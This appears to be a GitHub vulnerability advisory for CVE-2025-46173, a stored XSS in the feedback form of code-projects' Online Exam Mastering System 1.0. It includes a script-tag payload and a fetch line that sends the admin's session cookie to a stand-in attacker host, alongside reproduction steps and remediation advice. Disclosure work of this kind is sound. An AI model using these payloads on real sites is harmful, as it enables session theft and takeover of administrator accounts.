


# CVE-2025-46173 - Stored Cross-Site Scripting (XSS) in Online Exam Mastering System 1.0


## 📌 Summary

**CVE-2025-46173** is a **stored Cross-Site Scripting (XSS)** vulnerability discovered in the `Online Exam Mastering System 1.0` by **code-projects**. The vulnerability exists in the `feedback.php` component where user input in the **name field** is not properly sanitized, allowing a malicious actor to inject arbitrary JavaScript. When an administrator views this feedback in the admin dashboard (`dash.php`), the payload gets executed in the admin’s browser, leading to session hijacking and potential privilege escalation.

---

## 🧠 Vulnerability Details

- **Vulnerability Type:** Stored Cross Site Scripting (XSS)
- **CVE-ID:** CVE-2025-46173
- **Vendor:** [code-projects](https://code-projects.org)
- **Product:** Online Exam Mastering System
- **Affected Version:** 1.0
- **Component:** `feedback.php`, `dash.php`
- **Attack Vector:** Remote
- **Impact:** Escalation of Privileges, Session Hijacking

---

## 📷 Proof of Concept

### 1. Injection

A user submits the following payload into the **Name** field in the feedback form:

```html
<script>alert(document.cookie)</script>
````



### 2. Trigger

When the admin later views the submitted feedback in `dash.php`, the payload executes:



### 3. Result

The admin's session cookie is exposed through `document.cookie`, which can be exfiltrated:

```javascript
<script>
  fetch("http://attacker.com/steal?cookie=" + document.cookie);
</script>
```

---

## ⚙️ Steps to Reproduce

1. Clone or set up the vulnerable version from [code-projects](https://code-projects.org/online-exam-system-in-php-with-source-code/).

2. Navigate to `localhost/exam/feedback.php`.

3. Fill the "Name" field with:

   ```html
   <script>alert(document.cookie)</script>
   ```

4. Submit the form.

5. Log in as an admin and visit `dash.php?q=3` to view the feedback.

6. The script will execute in the admin's context.

---

## 🔥 Impact

Successful exploitation allows a remote attacker to:

* Steal admin session cookies
* Impersonate the admin user
* Gain full administrative access
* Modify or delete test data
* Escalate privileges

---

## 🔒 Recommended Remediation

* **Sanitize user input** by escaping HTML special characters (e.g., `&`, `<`, `>`, `"`).
* Use a robust sanitization library such as PHP’s `htmlspecialchars()` or a frontend validation + backend sanitization combination.
* Implement a Content Security Policy (CSP).
* Consider encoding data before rendering it in the DOM.

---

## 🔗 References

* [Blind Cross-Site Scripting (Invicti)](https://www.invicti.com/learn/blind-cross-site-scripting/)
* [Acunetix - Detecting Blind XSS](https://www.acunetix.com/websitesecurity/detecting-blind-xss-vulnerabilities/)
* [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

---

## 👤 Discoverer

**Pruthu Raut**
[LinkedIn](https://linkedin.com/in/pruthuraut) | [TryHackMe Top 2%](https://tryhackme.com/p/pruthu) | [GitHub](https://github.com/pruthuraut)

---


> Screenshots are for educational purposes only. All testing was done in a local environment.
### 🎥 Video PoC

[Click here to watch the demo video](assets/blind-xss-demo.mp4)

---

## ⚠️ Disclaimer

This information is provided for educational and research purposes only. Do not use it on systems you do not own or have explicit permission to test.


